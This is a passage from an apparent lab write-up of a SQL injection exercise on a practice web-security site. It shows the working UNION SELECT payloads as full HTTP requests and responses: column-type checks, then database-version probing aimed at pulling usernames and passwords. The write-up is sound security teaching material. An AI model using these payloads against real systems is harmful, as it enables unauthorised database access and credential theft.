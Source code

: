 To return the credentials, we'll need at least one of the columns to be of type string. Looking at the output from the `ORDER BY 1` and `ORDER BY 2` injections, we can deduce that the product name is at column index 1 and the product description is at column index 2. Since both of these are most probably strings, we can use both in our `UNION` attack to return both the username and password columns from the currently unknown target table.

We can verify this hypothesis by injecting `UNION SELECT 'a', 'b'`. If the web application doesn't return an error, our hypothesis is correct.

```http
GET /filter?category=Pets'+UNION+SELECT+'a','b'-- HTTP/1.1
Host: acf01f921f3267cd803c0b19006e0075.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 8704
```

The web application responded normally, indicating that indeed both columns are of type string. As an aside, the fact that the previous `UNION SELECT` operation without having to specify a target table using the `FROM` operator rules out the target database as Oracle.

### Enumerate database version

With both columns from the resultant row set of the original `SELECT` query available to us, we'll iterate through various version query syntaxes to determine the version of the target database.

#### MSSQL - No

```http
GET /filter?category=Pets'+UNION+SELECT+'version',@@version-- HTTP/1.1
Host: acf01f921f3267cd803c0b19006e0075.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

#### PostgreSQL - Yes

```http
GET /filter?category=Pets'+UNION+SELECT+'version',version()-- HTTP/1.1
Host: acf01f921f3267cd803c0b19006e0075.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```
